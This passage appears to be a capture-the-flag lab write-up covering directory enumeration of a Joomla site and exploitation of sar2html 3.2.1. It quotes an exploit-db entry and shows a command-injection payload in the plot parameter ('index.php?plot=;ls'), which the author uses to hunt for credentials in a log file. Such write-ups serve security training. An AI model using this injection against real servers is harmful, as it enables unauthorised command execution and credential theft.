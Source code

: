/media                (Status: 301) [Size: 319] [--> http://10.10.85.174/joomla/media/]
/modules              (Status: 301) [Size: 321] [--> http://10.10.85.174/joomla/modules/]
/plugins              (Status: 301) [Size: 321] [--> http://10.10.85.174/joomla/plugins/]
/templates            (Status: 301) [Size: 323] [--> http://10.10.85.174/joomla/templates/]
/tests                (Status: 301) [Size: 319] [--> http://10.10.85.174/joomla/tests/]
/tmp                  (Status: 301) [Size: 317] [--> http://10.10.85.174/joomla/tmp/]

===============================================================
Finished
===============================================================</code></pre>
<br><br><br>

Sar2HTML is a web-based tool used to visualize and analyze system performance data collected by the sysstat package, specifically from the sar (System Activity Report) command.

Older versions of sar2html have known LFI (Local File Inclusion) vulnerabilities, allowing attackers to read system files
![2025-02-10_13-33](https://github.com/user-attachments/assets/16d3a4c7-a84b-4670-8dc5-e0cb322b56bd)
<br><br><br>

this exploit targets sar2html 3.2.1 and allows Remote Code Execution (RCE) via command injection in the plot parameter of index.php

exploit https://www.exploit-db.com/exploits/47204
<pre><code> # Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
             </code></pre>
<br><br><br>

i could do a reverse shell but it is not necessary, i just need to get the credentials found in the log.txt file.

index.php?plot=;ls
![2025-02-10_14-14](https://github.com/user-attachments/assets/42d31cd0-6844-444b-bc8c-cdd1444543dc)
